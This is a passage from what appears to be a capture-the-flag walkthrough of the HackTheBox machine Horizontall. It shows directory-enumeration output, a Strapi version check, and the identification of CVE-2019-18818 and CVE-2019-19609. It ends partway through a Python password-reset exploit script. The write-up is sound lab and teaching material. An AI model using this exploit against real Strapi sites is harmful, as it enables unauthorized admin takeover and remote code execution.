     200       16l      101w      854c http://api-prod.horizontall.htb/admin
    403        1l        1w       60c http://api-prod.horizontall.htb/users
    200        1l       21w      507c http://api-prod.horizontall.htb/reviews
    [####################] - 41s    19964/19964   0s      found:3       errors:0      
    [####################] - 41s    19964/19964   485/s   http://api-prod.horizontall.htb
    

`/users` returns 403 Forbidden, so not much I can do with that for now.

#### /admin

Visiting `/admin` presents a login form for [strapi](https://strapi.io/),
which defines itself as “the leading open-source headless CMS. It’s 100%
JavaScript, fully customizable and developer-first.”

![image-20210802131003331](https://0xdfimages.gitlab.io/img/image-20210802131003331.png)

## Shell as strapi

### Exploit Identification

Some Googling for “strapi exploit” leads to a few things of interest. I first
found CVE-2019-19609, which is an authenticated RCE exploit, nicely explainted
[here](https://bittherapy.net/post/strapi-framework-remote-code-execution/).
That’ll be useful if I can get authenticated.

There’s also CVE-2019-18818, which is allows resetting the admin password for
strapi. [This post](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/) has
a Python exploit script. It also shows how to check the strapi version at
`/admin/strapiVersion`:

    
    
    oxdf@hacky$ curl http://api-prod.horizontall.htb/admin/strapiVersion
    {"strapiVersion":"3.0.0-beta.17.4"}
    

Both of the vulnerabilities above exist in this version.

### Change Admin Password

First I’ll use CVE-2019-18818 to change the admin password using the script
from the post above:

    
    
    import requests    
    import sys    
    import json    
         
    args=sys.argv    
         
    if len(args) < 4:    
        print("Usage: {} <admin_email> <url> <new_password>".format(args[0]))    
        exit(-1)    
         
    email = args[1]    
    url = args[2]    
    new_password =  args[3]    
         